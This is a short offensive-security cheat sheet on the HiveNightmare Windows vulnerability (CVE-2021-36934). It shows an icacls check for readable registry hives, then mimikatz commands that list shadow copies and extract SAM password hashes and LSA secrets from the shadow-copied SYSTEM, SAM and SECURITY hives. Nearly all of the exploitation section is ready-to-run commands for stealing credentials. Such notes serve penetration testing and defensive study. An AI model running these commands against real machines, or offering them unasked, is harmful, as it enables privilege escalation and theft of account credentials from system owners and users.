 # HiveNightmare

#### <mark style="color:green;">CVE-2021–36934 allows you to retrieve all registry hives (SAM,SECURITY,SYSTEM) in Windows 10 and 11 as a non-administrator user.</mark>

## <mark style="color:red;">Exploitation</mark>

Check for the vulnerability using icacls

```
C:\Windows\System32> icacls config\SAM
```

```
config\SAM BUILTIN\Administrators:(I)(F)
           NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Users:(I)(RX)    <-- this is wrong - regular users should not have read access!                    
```

Then exploit the CVE by requesting the shadowcopies on the filesystem and reading the hives from it.

```
mimikatz> token::whoami /full
```

### <mark style="color:orange;">List shadow copies available</mark>

```
mimikatz> misc::shadowcopies
```

### <mark style="color:orange;">Extract account from SAM databases</mark>

```
mimikatz> lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM
```

### <mark style="color:orange;">Extract secrets from SECURITY</mark>

```
mimikatz> lsadump::secrets /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY
```
